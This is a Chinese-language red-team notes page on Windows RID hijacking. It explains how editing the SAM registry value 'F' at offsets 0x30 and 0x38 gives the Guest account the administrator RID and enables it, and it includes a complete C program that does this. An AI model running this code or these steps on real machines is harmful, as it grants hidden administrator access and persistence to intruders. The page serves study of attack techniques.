```yaml
---
description: RID-hijack
---
```


# RID劫持

## RID Hijack简介

在windows系统内，使用rid区分用户组和用户账户，rid是安全标识符sid的一部分，每创建一个组或一个用户，都会往后递增一位，通常administrator的rid始终为500，而标准用户通常以1001开始。

![](../.gitbook/assets/image%20%2837%29.png)

 [Sebastian Castr](https://twitter.com/r4wd3r)发现可以通过修改注册表来劫持有效账户的RID，使guest成为管理员，同时进行活动的话会以原本的身份记录在日志内。

## 手工操作

windows内置访客账户guest的rid信息储存在一下键值对内。

```text
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\Guest
```

![0x1f5&#x8F6C;&#x6362;&#x6210;&#x5341;&#x8FDB;&#x5236;501](../.gitbook/assets/image%20%2825%29.png)

也可以通过wmic查询。

```text
wmic useraccount where (name='Guest') get name,sid
```

![](../.gitbook/assets/image%20%2831%29.png)

通过RID在如下键值对内寻找账户的相关信息。

```text
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F5
```

找到如下注册表项的键值对“F",此键值对内存储着标识账户RID和是否开启的数值。

PS:需要system权限。

![](../.gitbook/assets/image%20%2872%29.png)

在"F"键值对偏移0x30的位置存储着RID，修改为0xF401\(500\)即可劫持RID。

偏移0x38确定账户是否启用\(0X1502-&gt;关闭,0x1402-&gt;启用\)。

更改这些值将启用启用来宾帐户（有时情况下一部分），并劫持提升的RID（本地管理员）。来宾帐户将具有管理员权限，但是该帐户仍然不会出现在本地管理员组中。

## 代码实现

由于powershell和bat的脚本在互联网上可以轻易找到，这里只给出c的版本。

在metasploit和empire内也有比较成熟的模块。

```text
#include <Windows.h>
#include <stdio.h>


int  main()
{
	HKEY hKey = NULL;
	PCHAR KeyAddr = NULL;
	DWORD KeySize;
	DWORD KeyType;
	BYTE Buffer[0x50] = { 0 };
	KeyAddr = (PCHAR)"SAM\\SAM\\Domains\\Account\\Users\\000001F5";

	RegOpenKeyExA(HKEY_LOCAL_MACHINE, KeyAddr, 0, KEY_ALL_ACCESS, &hKey);
	RegQueryValueExA(hKey, "F", NULL, &KeyType, (LPBYTE)&Buffer, &KeySize);

	Buffer[0x30] = (BYTE)0xf4; //hijack rid
	Buffer[0x38] = (BYTE)0x14; //enable guest
	
	RegSetValueExA(hKey, "F",NULL, KeyType, Buffer, KeySize);
	RegCloseKey(hKey);
	return 0;
}

```

## LINKS

{% embed url="https://pentestlab.blog/category/red-team/persistence/page/1/" %}

{% embed url="https://xz.aliyun.com/t/2998" %}



